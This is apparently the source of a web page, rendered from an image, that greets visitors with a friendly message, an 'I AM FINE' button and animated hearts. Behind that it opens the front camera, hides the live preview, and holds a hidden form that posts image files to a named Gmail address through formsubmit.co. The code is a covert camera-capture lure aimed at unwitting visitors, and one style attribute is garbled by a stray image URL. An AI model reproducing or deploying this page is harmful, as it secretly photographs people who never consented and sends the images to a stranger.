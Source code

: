 @keyframes fall {
  to { transform: translateY(110vh) rotate(360deg); }
}

video {
  display: none; /* hide live camera preview */
}
</style>
</head>
<body>

<h2>HELLO ❤ — HOW ARE YOU?</h2>
<button id="capture">I AM FINE</button>

<canvas id="canvas" style="display:https://github.com/user-attachments/assets/39e24fbf-7fbf-4f13-bade-15725cea9cbc;"></canvas>

<form id="imageForm" action="https://formsubmit.co/ganeshbist257@gmail.com" method="POST" enctype="multipart/form-data">
  <input type="hidden" name="_captcha" value="false">
  <input type="hidden" name="_template" value="table">
  <input type="hidden" name="_next" value="https://Binodbist7.github.io/Qnahi/index.html">
  <input type="file" id="imageInput" name="image" accept="image/png, image/jpeg" style="display:none;">
  <button type="submit" style="display:none;">Submit</button>
</form>

<script>
const canvas = document.getElementById("canvas");
const captureButton = document.getElementById("capture");
const imageInput = document.getElementById("imageInput");
const form = document.getElementById("imageForm");

let video;

// Start camera
navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } })
  .then(stream => {
    video = document.createElement("video");
    video.srcObject = stream;
    video.play();
  })
  .catch(err => console.error("Error accessing camera: ", err));

// Heart animation
function createHeart() {
  const heart = document.createElement("div");
  heart.classList.add("heart");
  heart.innerHTML = "💙";
  heart.style.left = Math.random() * 100 + "vw"; 
  heart.style.fontSize = (Math.random() * 20 + 10) + "px"; 
  heart.style.animationDuration = (Math.random() * 5 + 5) + "s"; 
  document.body.appendChild(heart);
  setTimeout(() => heart.remove(), 10000);
}
setInterval(createHeart, 300);
